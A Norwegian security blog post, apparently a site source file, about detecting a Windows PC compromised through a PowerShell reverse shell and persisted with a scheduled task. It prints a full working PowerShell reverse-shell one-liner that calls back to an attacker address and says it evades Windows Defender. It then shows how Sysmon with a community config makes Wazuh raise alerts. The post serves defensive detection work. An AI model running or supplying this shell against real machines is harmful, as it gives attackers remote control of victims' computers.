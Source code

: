 ```yaml
---
tittel: Oppdage skurker i maskinen
beskrivelse: Skurkene har hacket en maskin på nettet. Hvordan kan vi oppdage dem?
tags: 
 - post
date: 2023-09-05
layout: layouts/post.njk
---
```

# En Windows-PC blir hacket
Scenario: en hacker har overbevist en medarbeider om å kjøre et script i Powershell. Dette gir hackeren et 
reversskall, altså et kommandolinjevindo til å direkte kontrollere maskinen. Hackeren benytter muligheten til å 
legge inn oppstart av reversskallet som en planlagt oppgave i Windows (Schtasks) som kjører hver gang 
maskinen starter opp. 

Hvordan kan vi oppdage dette? Et godt antivirusprogram skulle man jo tro skulle blokkere dette, men 
det er fullt mulig å få til dette uten at det oppdages. Dersom, for eksempel, Windows PC-en 
kjører Windows 10 med innebygd Windows Defender som sikkerhetsløsning, blir følgende reversskall 
for eksempel ikke detektert: 

```
$LHOST = "10.10.10.10"; $LPORT = 9001; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
```

Dette ble testet på en Win10-maskin som kjører på Amazon Workspaces, og monitorert med en 
Wazuh-agent uten endringer i konfigurasjon fra standard. 

## Enkel forbedring
Ved ganske enkelt å installere [Sysmon](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon) med
konfig-fila fra [SwiftOnSecurity](https://github.com/SwiftOnSecurity/sysmon-config), blir situasjonen 
en annen. Wazuh fyrer opp med alerts, og vi oppdager hva skurkene har fore. 

![Alarmer etter sysmon ble installert](/img/alerts_after_sysmon.png)

## Take-away
- Ikke stol på sikkerhetsverktøy uten å teste og tilpasse dem
- Bruk verktøy som øker synligheten av mistenkelig aktivitet
- Tenk gjennom hvilke ekstra deteksjoner du har bruk for
